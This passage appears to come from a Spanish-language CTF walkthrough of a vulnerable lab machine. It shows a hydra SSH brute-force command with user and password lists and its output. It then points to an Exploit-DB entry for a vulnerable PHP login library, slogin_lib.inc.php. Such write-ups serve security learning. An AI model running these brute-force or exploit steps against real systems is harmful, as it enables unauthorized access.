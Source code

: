 ```
root@kali:~/DEVI# hydra -L users.txt -P pass.txt ssh://10.10.10.139
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-15 19:12:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 117 login tries (l:9/p:13), ~8 tries per task
[DATA] attacking ssh://10.10.10.139:22/
[STATUS] 42.00 tries/min, 42 tries in 00:01h, 82 to do in 00:02h, 16 active
```

<img src="https://github.com/El-Palomo/DIGITALWORLD.LOCAL-DEVELOPMENT/blob/main/devi7.jpg" width=80% />


### 4.2. Librería PHP vulnerable: slogin_lib.inc.php

- EXPLOIT-DB de inmediato muestra información sobre la librería: https://www.exploit-db.com/exploits/7444
- TIENES QUE LEER la vulnerabilidad. En resumen tiene dos manera de explotar: RFI (Remote File Inclusion) que no funcionó y un archivo por defecto que MILAGROSAMENTE y POR SUERTE estaba allí listo para utilizar (los CTF son asi).
